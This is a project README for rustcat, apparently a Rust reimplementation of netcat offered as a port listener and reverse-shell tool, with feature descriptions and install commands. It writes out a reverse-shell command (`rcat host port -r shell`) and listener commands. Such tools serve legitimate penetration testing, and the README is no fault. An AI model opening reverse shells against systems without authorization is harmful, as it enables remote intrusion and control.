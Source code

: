 # rustcat - A modern port listener and reverse shell.

<div>
  <img alt="Contributors" src="https://img.shields.io/github/contributors/robiot/rustcat?label=Contributors">
  <img alt="AUR version" src="https://img.shields.io/aur/version/rustcat">
  <img alt="Crates.io" src="https://img.shields.io/crates/d/rustcat?label=Cargo%20Downloads">
  <img alt="GitHub All Releases" src="https://img.shields.io/github/downloads/robiot/rustcat/total?label=GitHub%20Downloads">
  <img alt="Build Stats" src="https://github.com/robiot/rustcat/actions/workflows/rust.yml/badge.svg">
</div>

[Installation](https://github.com/robiot/rustcat#installation-guide) • [Usage](https://github.com/robiot/rustcat/wiki/Basic-Usage)

# Features
* Listen on ports
* Command history & Tab completion
* Reverse shell
* Udp
* Colors

# Why Rustcat?

## Everything Easy
![Ex](https://raw.githubusercontent.com/robiot/rustcat/main/img/easy-revshell.gif)

Starting a listener is just as simple as `rcat -lp port`. While in netcat you would do something like `nc -nlvp port` to get the same results.

And creating a reverse shell has never been easier, `rcat host port -r shell` is all you need. No more long /dev/tcp stuff that you always forget.

## Command History
![Ex](https://raw.githubusercontent.com/robiot/rustcat/main/img/history.gif)

Command history is something we all need. How annoying isn't it when you accidently type a long command wrong, then you have to rewrite the entire thing.

But Rustcat fixes that with command history. Just add -H and you will get command history (`rcat -lHp port`) and command completion, unlike netcat where you have to use another application and do `rlwrap -cAr nc -nlvp port` to get the same results.

When adding -H, the shell will almost work like a ssh shell.

## Appearance
A little splash of color doesn't hurt :).

## Cross Platform
Rustcat supports unix and windows systems.

## Installation

| **[Cargo][cargo_lnk]**                | **[Arch Linux][arch_lnk]**            | **[BlackArch][barch_lnk]**            | **[Debian/Kali][kali_lnk]**
|:-------------------------------------:|:-------------------------------------:|:-------------------------------------:|:-------------------------------------:|
| [![cargo_img]][cargo_lnk]             | [![arch_img]][arch_lnk]               | [![barch_img]][barch_lnk]             | [![kali_img]][kali_lnk]               |
| `cargo install rustcat`               | `yay -S rustcat`                      | `pacman -S rustcat`                   | [Read the install guide][debian_guide]|
| **[Funtoo][funtoo_lnk]**              | **[Other][other_lnk]**                |                                       |                                       |
| [![funtoo_img]][funtoo_lnk]           | [![other_img]][other_lnk]             |                                       |                                       |
| `emerge rustcat`                      | [Read the install guide][other_guide] |                                       |                                       |

[cargo_lnk]: https://crates.io/crates/rustcat
[cargo_img]: https://raw.githubusercontent.com/robiot/rustcat/main/img/icons/cargo.png

[arch_lnk]: https://aur.archlinux.org/packages/rustcat/
[arch_img]: https://raw.githubusercontent.com/robiot/rustcat/main/img/icons/arch.png

[barch_lnk]: https://www.blackarch.org/tools.html
[barch_img]: https://raw.githubusercontent.com/robiot/rustcat/main/img/icons/blackarch.png

[kali_lnk]: https://github.com/robiot/rustcat
[kali_img]: https://raw.githubusercontent.com/robiot/rustcat/main/img/icons/kali.png
[debian_guide]: https://github.com/robiot/rustcat/wiki/Installation-Guide#kalidebian

[funtoo_lnk]: https://github.com/funtoo/net-kit/tree/1.4-release/net-analyzer/rustcat
[funtoo_img]: https://raw.githubusercontent.com/robiot/rustcat/main/img/icons/funtoo.png

[other_lnk]: https://github.com/robiot/rustcat
[other_img]: https://raw.githubusercontent.com/robiot/rustcat/main/img/icons/others.png
[other_guide]: https://github.com/robiot/rustcat/wiki/Installation-Guide
<hr>

You can find more information [here](https://github.com/robiot/rustcat/wiki/Installation-Guide)

## Usage
A basic usage guide can be found [here](https://github.com/robiot/rustcat/wiki/Basic-Usage)

